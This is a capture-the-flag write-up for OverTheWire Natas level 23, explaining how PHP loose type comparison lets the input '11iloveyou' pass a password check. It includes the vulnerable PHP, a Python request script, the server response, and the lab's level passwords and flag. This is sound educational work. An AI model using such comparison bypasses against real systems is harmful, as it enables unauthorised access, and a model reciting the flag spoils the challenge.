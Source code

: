 # CTF Writeup - **OverTheWire Natas23- Natas24**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas23 - Natas24
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 24-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using type juggling.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas23
Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs
URL:      http://natas23.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for a password. As we dont know anything about it lets try some random passwords. 

```bash
Password: abc
# Wrong!
Password: natas
# Wrong!
```

So, It will print the credentials of the next level if we input the correct password. Lets view the logic behind the password check in the source code.

```bash

<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

We can see that this php code checks if the request contains the `passwd` parameter if it exists, then it gets the first occcurence of the `iloveyou` from the password and then checks if the `passwd` is greater than `10`. If both of them true it prints the credentials. But this is contradicting right as the passwd need to be both a integer to satisfy the second condition and the a string to satisfy the first condition. This is interesting due to the properties of the php. php considers the type of a variable on the go based on the operation that is performed. For example. `$var = 10` is interger, `$var = "abc"` is string, `$var = "11abc"` is also string. When a string is compared to a number, PHP tries to interpret the string as a numeric value. If the string starts with numeric characters, PHP extracts those numbers and uses them for the comparison. Any non-numeric characters at the end are ignored. If $var > 10 is checked when $var = "11abc" then it will produce true as the $var will take the value of `11` that is greater than `10`. With this information we know that the request is looking for a value greater than `10` as well as `iloveyou` should be present. Lets try sending `11iloveyou` to break the system as shown below in the python code.


```bash
import requests

target = 'http://natas23.natas.labs.overthewire.org?passwd=11iloveyou'
auth = ('natas23','dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs')

session = requests.Session()

r = session.get(target, auth=auth)
print(r.text)
```

The above script creates a session first with a request. It sends the `passwd` parameter using url and sendsa get request. The php code will find `iloveyou` to be present in the string and for the numeric comparison it will extract `11` out of the string. So both the conditions will be true. This will print the credentials for next level. 

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>     
# <script>var wechallinfo = { "level": "natas23", "pass": "dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs" };</script></head>
# <body>
# <h1>natas23</h1>
# <div id="content">

# Password:
# <form name="input" method="get">
#     <input type="text" name="passwd" size=20>
#     <input type="submit" value="Login">
# </form>

# <br>The credentials for the next level are:<br><pre>Username: natas24 Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd</pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```


## Flag

**Flag:** MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd


---

## Lessons Learned

It was a simple challenge. I was not able to figure out the logic, but i understood the concept easily. I was able to solve it.